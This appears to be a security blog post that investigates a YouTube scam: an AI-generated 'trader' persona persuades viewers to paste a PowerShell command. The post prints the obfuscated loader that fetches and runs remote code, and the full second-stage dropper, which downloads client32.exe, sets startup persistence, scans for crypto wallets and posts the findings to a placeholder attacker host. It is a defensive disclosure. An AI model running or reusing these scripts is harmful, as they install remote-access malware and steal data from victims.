






import Info from '../../../../components/MDX/Info.astro'
import Danger from '../../../../components/MDX/Danger.astro'

<Danger>
  ⚠️ **Attention:** The following contains pieces of malicious code. **Do not try to execute it by
  any means**.
</Danger>

_Update January 2025: The post title has been updated to reflect the Youtuber's name change. Thomas
Roberts has changed his name to Thomas Harris._

## TL;DR

[Thomas Harris](https://www.youtube.com/@Thomas_Harris_Us) is an AI-created YouTuber who bought a
fake audience. All his videos show the same tutorial: "how to unlock TradingView's developer mode"
to grow your portfolio by XXX %. Surprise, it doesn't. Instead, it injects malicious code into your
computer.

## Intro

_- [colleague] I got hacked last evening. I think I executed a bad script..._  
_- [me] Where did you take that script from?_  
_- [colleague] A guy from YouTube…_

## Step 1 - The YouTube Guy

It all started with [a video](https://www.youtube.com/watch?v=oDJ0XMqCl18) with Thomas Harris, an
American Youtuber with 50 videos and 162k followers. Note that this person has a verified YouTube
badge. Seems legit.



All videos contain "well-edited" thumbnails. They also have good post-production. I mean with nice
visual and sound effects.

Although his video looks ~~a bit~~ very scammy, it's very a common thing in the YouTube ecosystem.
People claim unrealistic targets to get more engagement. My first guess was: "Looks like someone
hacked this dumbass Youtuber" _(sorry if I don't have much respect for crypto gurus)_.

But then I saw two things:

- All the videos have the same storyline: "a tutorial to unlock TradingView's developer mode to
  unlock AI-powered indicators so you can grow your portfolio by xx within a year". PS: I didn't
  watch the videos… I used my homemade [YoutubeMate](https://www.youtube-mate.com/) app to get the
  gist of a few of his videos.
- In every video, between 1 minute 30 and 2 minutes, I see the exact same command being executed.



**👉 The Youtube Guy wasn't hacked. He is the hacker.**

## Step 2 - The magic script

Let's look at the script. When unindented, it's hard to spot the hack. But, correctly indented, it
looks like this:

```powershell {7}
powershell -Command "
  $AI='TPS';
  $mode='DEV';
  $version='2.9.6_Beta_AI';
  $dev_more_enable='true';
  $update='//mode';
  $developer='ht'+$AI+':'+$update+$mode+'.AI';
  $charts='TradingView';
  $Response=Invoke-WebRequest -Uri $developer -UseBasicParsing -UserAgent $charts;
  $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content);
  IEX $Script
"
```

Do you have it?

Line 5 contained some URL obfuscation. In a nutshell, the string stored in the `$developer` variable
is built based on another string. Ironically the dev created unnecessaries variables like
`$version`{' '}or{' '}`$dev_more_enable` (with a typo).

90% of the script's purpose is to hide this URL: "htTPS://modeDEV.AI". The last line loads a remote
script from this URL and executes it right away.

When I opened "modedev.ai", I had an empty page saying 404. But a 404 means there's a server behind
and the script contains `-UserAgent TradingView`.



Yay, I have the script 🎉

<Info title="🎓 Info:">
  It's common to use some HTTP headers to hide malicious scripts. So the bots that are crawling the
  web (Google or any other) don't see it and don't block it. It allows them to stay under the radar.
  Pishing websites also uses this technique to block traffic from any non-mobile devices. Here it's
  using the user-agent but sometimes in different attacks, it can also be a geo-restriction.
</Info>

## Step 3 - The Hidden Script

Here's the full Script (I intentionally changed the attacker URL).

```powershell
Invoke-WebRequest -Uri 'https://bad-website.ai/x7.vue' -OutFile "$env:AppData\7z.dll" -Headers @{ 'User-Agent' = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' }
Invoke-WebRequest -Uri 'https://bad-website.ai/xbe.vue' -OutFile "$env:AppData\b.vue" -Headers @{ 'User-Agent' = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' }
Invoke-WebRequest -Uri 'https://bad-website.ai/xz.vue' -OutFile "$env:AppData\zz.exe" -Headers @{ 'User-Agent' = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' }

Set-Location "$env:AppData"
& ".\zz.exe" x b.vue -pkek -aoa -y > $null 2>&1
Set-Location "$env:AppData\Ns"

Start-Sleep -Seconds 2
Start-Process "client32.exe"

$pathToExecutable = "$env:APPDATA\Ns\client32.exe"
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'NsSupport' -Value $pathToExecutable

Remove-Item -Path "$env:AppData\7z.dll" -Force
Remove-Item -Path "$env:AppData\b.vue" -Force
Remove-Item -Path "$env:AppData\zz.exe" -Force

Start-Sleep -Seconds 2

$yyx = $env:COMPUTERNAME
$filePath1 = "$env:APPDATA\Ns\client32.exe"
$filePath2 = "$env:APPDATA\Ns\client32.ini"

if ((Test-Path $filePath1) -and (Test-Path $filePath2)) {
    $yyxy = "OK"
} else {
    $yyxy = "Fail"
}

$targetFoldersAppData = @("Ledger Live", "@trezor", "Exodus")
$targetFoldersProgramFiles = @("WasabiWallet", "BitBox")
$detectedFolders = @()

foreach ($folder in $targetFoldersAppData) {
    if (Test-Path "$env:APPDATA\$folder") {
        $detectedFolders += $folder
    }
}

$programFilesPath = "C:\Program Files"
foreach ($folder in $targetFoldersProgramFiles) {
    if (Test-Path "$programFilesPath\$folder") {
        $detectedFolders += $folder
    }
}

$folderOutput = $detectedFolders -join " + "
if ($folderOutput -ne "") { $folderOutput += "+" }

$requestBody = @{
    'computerName' = $yyx
    'folderStatus' = if ($detectedFolders.Count -gt 0) { "+" } else { "-" }
    'detectedFolders' = $folderOutput
}

Invoke-RestMethod -Uri 'https://bad-website.ai/info2.php' -Method POST -Body $requestBody -Headers @{ 'User-Agent' = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' }

Write-Host "Beta access to TradingView AI is currently closed. Please try again in a few days." -ForegroundColor Red%
```

Long story short, the script does a few things:

- It downloads DLL file, EXE file, and VUE file;
- It executes the EXE file which does something wrong on your machine;
- Execute a binary every time Windows starts;
- Checks for cryptocurrency wallets in program files;
- and ironically says that "the Beta is currently closed".

## Follow up - Who are you, Mr Harris?

### DNS

When you buy a domain, it's possible to know who owns it.

```sh
$ whois modedev.ai

# [...]
Admin Name: Domain Administrator
Admin Organization: See PrivacyGuardian.org
```

Damn… The hacker is using "PrivacyGuardian" a service used to hide the identity of domain owners. At
least I tried.

What I don't understand is, why the user bought 2 domains ("modedeveloper.com" and "modedev.ai") for
one scam. \*.ai domains are not cheap!

### Let's dig YouTube

Our YouTube Guy is AI-generated. I tried to reverse his face but I got nothing.

[The YouTube stats](https://socialblade.com/youtube/c/rudoamin) clearly show that everything was
bought: the friendly comments, the views and the subscribers (i.e. 5k 3 days in a row then nothing).

Buying YouTube views and subscribers is expensive.

- 100k subscribers worth ~1500$. He has 162k subscribers.
- 100k views worth up to 2000$. He has 500k total views.



—> What about the Verified Badge?

Turns out the exact same BS as Twitter. It's all about money. All you need is 100k subscribers and a
phone number.

### April 2021

The YouTube channel was created in April 2021. Also, the "user-agent" mentioned
"Chrome/90.0.4430.212", a version of Chrome which was released in 2021. I'd not be surprised if the
guy started developing his code in April 2021.

I just wonder what happened between today and 2021. I think the scam had a different shape before.

### Filthy Rich

I managed to access one of the hacker's ETH wallets and discovered a staggering **$700,000 USD in
ETH**. While I anticipated the profitability of this scam, this scale is truly astonishing. Also,
the hacker is dispersing funds across multiple wallets, this amount may represent only a fraction of
their gains.



### Maybe it's you @realcryptorich?

When I thought I was done with my investigation, I tried to see who was referring to our imaginary
friend Mr Robert. I reverse-search some of the video highlights to see who else speaks about this
"magic trick".

And I found this guy on Twitter: [@realcryptorich](https://x.com/realcryptorich).



He didn't share the YouTube video. He uploaded it and "Pinned" it on his profile. It's quite a
strong engagement on Twitter.

Is it our guy? Is it a paid partnership? I don't know but it is very suspicious. Even though I was
curious to get more details about this guy, I decided to stop my investigations.

## Takeaway

And that it's for today's investigation. I still have many unanswered questions but, one thing is
certain: this appears to be **at least a seven-figure scam**.

I told this story to a few tech friends and none of us had seen a scam like this before:

- AI-generated video;
- Video with visual&sound post-production;
- Artificially inflating YouTube views and subscriber counts to increase visibility and perceived
  credibility.

Online threats are getting more and more sophisticated. With the rise of AI tools, I'm afraid that
we are just at the beginning.

Some questions arise: How many more Mr. Harris are operating online? Moreover, as AI generation
tools advance, what new tactics will these scammers employ tomorrow?
